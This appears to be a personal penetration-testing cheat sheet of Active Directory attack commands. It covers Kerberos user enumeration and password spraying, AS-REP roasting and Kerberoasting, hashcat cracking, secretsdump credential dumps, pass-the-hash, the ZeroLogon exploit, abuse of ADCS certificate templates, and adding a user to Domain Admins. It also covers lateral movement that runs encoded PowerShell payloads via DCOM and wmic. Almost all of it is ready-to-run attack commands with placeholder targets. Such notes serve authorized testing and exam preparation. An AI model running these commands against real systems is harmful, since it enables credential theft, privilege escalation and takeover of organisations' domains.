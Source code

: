 KERBRUTE:
---
#kerbrute #ad #enum #passwordspray #userenum #kerberos 

Install/Build latest kerbrute:

```bash
go install github.com/ropnop/kerbrute@latest
#or the good old-fashioned
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build
```

Sync time to DC, otherwise password spray / enum / brute force may fail!

```shell
sudo ntpdate -s $TARGET_IP
```

then

```bash
kerbrute userenum --dc $TARGET_IP -d $TARGET_AD users -t 100 -v
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD -t 100 -v users $PASSWORD 
kerbrute bruteuser --dc $TARGET_IP -d $TARGET_AD -t 100 -v passwords $USER
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD users -t 100 -v --user-as-pass
```

Dev version of kerbrute auto-checks for AS-REP roastable accounts
```bash
kerbrute userenum --dc $TARGET_IP --domain $TARGET_AD --hash-file hashes --downgrade users
```

LDAP
----
```bash
nmap -n -sV --script "ldap* and not brute" $TARGET_IP
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -s base namingcontexts
```

```bash
ldapsearch -x -H ldap://$TARGET_IP -b 'DC=$TARGET_AD,DC=$DOMEXT' | grep -B2 Person | grep "@" | awk '{print $2}'
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -b "DC=$TARGET_AD,DC=local" '(objectClass=person)'
```

AS-REP Roasting
---
#as-rep-roasting #kerberos #asrep-roasting

No password ticket query against a user list, not requiring Kerberos pre-authentication,
AKA. 
AS-REP Roasting or ASREP Roasting

```shell
impacket-GetNPUsers -no-pass -usersfile users -dc-ip $TARGET_IP $TARGET_DOMAIN/ -format hashcat
```

Against single user:

```shell
impacket-GetNPUsers $TARGET_DOMAIN/$TARGET_USER -no-pass
impacket-GetNPUsers -dc-ip $TARGET_IP -request -outputfile hashes.asreproast $AD_DOMAIN/$USER
```

Or if you got a shell on machine:
#rubeus 

```powershell
Rubeus.exe asreproast /format:hashcat /outfile:C:hashes.txt
```

And then brute force:
#ntlm #bruteforce 

```shell
hashcat -m 18200 hashes $ROCKYOU
#Print pass
hashcat -m 18200 hashes $ROCKYOU --show | awk -F':' '{print $3}'
```

NTLM dump from mimikatz brute for OSCP :
#ntlm #mimikatz #bruteforce 
```bash
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
Crack AS-REP roast hash:
#hashcat #asrep-roasting #bruteforce 

```bash
sudo hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Dump hashes using account credentials:
#dump #creds

```shell
impacket-secretsdump -dc-ip $TARGET_IP $USER:$PASSWORD@$TARGET_DOMAIN
#OR try
impacket-secretsdump $USER:$PASSWORD@$TARGET_IP
```

Connect to Windows Machine using obtained hash (pass the hash):
#winrm #evil-win-rm #evilwinrm #pth #pass-the-hash

```shell
#remove aad3b435b51404eeaad3b435b51404ee: from hash
evil-winrm -i $TARGET_IP -u $USER -H $TARGET_HASH
```
Change user password using powershell / powerview:
---
#change-password
```powershell
. ./PowerView.ps1
Set-DomainUserPassword -Identity $USERNAME -AccountPassword (ConvertTo-SecureString -AsPlainText 'Password123!' -Force) -Domain $TARGET_AD
Add-NetGroupUser -UserName $USER -GroupName "Domain Admins" -Domain $TARGET_AD
```

Pre-compiled Windows binaries (Rubeus, Certify …):
---
#ghostpack #rubeus #certify #precompiled

[https://github.com/GhostPack](https://github.com/GhostPack)

---
Kerberoasting:
---
#kerberos #kerberoasting #ad #active-directory #windows #spn

The attacker impersonates an account user with a service principal name (SPN) and requests a service-related ticket.

Check if vulnerable accounts are present:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_AD/$USER
```

Send request to TGS and extract the hash:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_AD/$USER -request
```

#kerberoasting #rubeus

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

ZeroLogon (CVE-2020-1472)
---
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472
python3.11 cve-2020-1472-exploit.py $NB_NAME $TARGET_IP
impacket-secretsdump -no-pass -just-dc $NB_NAME\$@$TARGET_IP\
evil-winrm -u administrator -i $TARGET_IP -H $HASH
```
Overpass the hash attack:
---
when NTLM protocol is disabled
#overpass-the-hash

```shell
impacket-getTGT $TARGET_DOMAIN/$USER -hashes :$HASH
export KRB5CCNAME=$(pwd)/$USER.ccache
impacket-psexec $TARGET_DOMAIN/$USER@$MACHINE_NAME.$TARGET_DOMAIN -k -no-pass
```

PKI Admin access
---
#pki #pki-admin #ad-template #vulnerable-template

PKI Admin can be abuse to create a vulnerable cert template which can then be exploited with Certipy (or certify and rubeus):

Download template creator module:

```
wget https://raw.githubusercontent.com/GoateePFE/ADCSTemplate/master/ADCSTemplate.psm1
# upload psm1 file to target
```

Use the module to create a vulnerable template:

```powershell
Import-Module .\ADCSTemplate
Export-ADCSTemplate -DisplayName Administrator > .\admin.json
download admin.json
```

then edit the following JSON properties:
```JSON
"msPKI-Certificate-Name-Flag":  1,
"msPKI-Enrollment-Flag":  0,
```
and make sure to have:
```json
"pKIExtendedKeyUsage":"1.3.6.1.5.5.7.3.2"
```
then
```powershell
New-ADCSTemplate -DisplayName Administrator2 -JSON (Get-Content .\admin.json -Raw) -Publish -Identity "$AD_DOMAIN(1st part no ".")\$USERNAME"
Set-ADCSTemplateACL -DisplayName Administrator2 -Type Allow -Identity '$AD_DOMAIN(1st part no ".")\$USERNAME' -Enroll

```
Scan with certipy 4.4+ for vulnerable templates
notes are in "Certificate Abuse" #Certificate-Abuse

List Active Directory AD Users:
---
#enumerate #ad #users #smb-enumeration

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD --users
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD --users | grep "$TARGET_AD" | sed 1d | awk '{print $5}' | sed 's/[^ ]*\\//' | tail -n +2
```

Password spraying with CME

```shell
crackmapexec smb $TARGET_AD -u users -p $PASS --continue-on-success
```

Start collecting data for BloodHound:
---
#sharphound #bloodhound #ad

```powershell
powershell -ep bypass
. .\SharpHound.ps1
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\$USER\Desktop\ -OutputPrefix "audit"
```

```powershell
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname
Get-NetUser
Get-NetUser | select cn
Get-NetGroup
Get-NetGroup "$GROUP_NAME" | select member
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Get-ObjectAcl -Identity $USERNAME
Convert-SidToName $SID
Find-DomainShare #-CheckShareAccess
```

resolve local machine address
`nslookup.exe $ADDRESS`

Lateral movement
---
#lateral-ad-movement #dcom #cim-session
```powershell
$username = $USER;
$password = $PASS;
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName $TARGET_IP -Credential $credential -SessionOption $Options
$command = 'powershell -e JA....AA==';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

#wmic #process-create
```powershell
wmic /node:$TARGET_IP /user:$USER /password:$PASS process call create 'powershell -e JA....AA=='
```